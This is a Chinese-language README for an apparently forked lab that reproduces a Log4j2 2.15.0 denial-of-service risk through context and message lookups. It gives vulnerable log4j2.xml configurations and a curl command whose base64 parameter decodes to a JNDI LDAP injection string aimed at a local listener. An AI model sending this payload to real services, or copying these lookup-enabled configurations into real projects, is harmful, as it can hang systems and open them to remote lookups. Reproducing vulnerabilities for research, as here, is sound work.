

# Log4j2 Dos Verification

Fork from https://github.com/EmYiQing/Log4j2DoS

漏洞环境仅用于安全研究，禁止非法用途，造成的后果使用者负责

## 背景

Log4j2.15.0 有DOS风险。

2.15.0以下版本，如果使用ThreadContext来记录日志，如在日志pattern中有 ${ctx:xxx}，并且调用 ThreadContext.put{“xxx”,“用户可控数据”}， 添加JVM参数和环境变量无效

2.15.0默认配置不存在dos风险，但如果使用了lookup功能，或者使用ThreadContext打印日志，也存在DOS安全风险

## 复现 

### 环境信息
- JDK 8 275
- log4j 2.15.0
- Springboot 2.6.1

### 第一种情况
在`log4j2.xml`中配置
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout>
                <pattern>%d %p %c{1.} [%t] $${ctx:message} %m%n</pattern>
            </PatternLayout>
        </console>
    </appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

注: message需要base64encode


### 第二种情况


漏洞复现URL：`http://localhost:8080/poc1?message=payload`
在`log4j2.xml`中配置
```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="warn" name="MyApp" packages="">
    <appenders>
        <console name="STDOUT" target="SYSTEM_OUT">
            <PatternLayout pattern="%msg{lookups}%n"/>
        </console>
    </appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="STDOUT"/>
        </Root>
    </Loggers>
</Configuration>
```

漏洞复现URL：`http://localhost:8080/poc2?message=payload`

注: message需要base64encode

### 测试用例

1. 本地起一个http服务，python -m http.server 7777

2. 本地使用log4j2.xml配置，起动springboot，发送payload到接口触发写入日志，发现服务尝试连接http://127.0.0.1:7777

curl http://127.0.0.1:8080/test\?message\=JHtqbmRpOmxkYXA6Ly8xMjcuMC4wLjE6Nzc3N30=

3. 查看console和http记录，可以发现请求keep alive, 被阻塞了，故存在dos风险


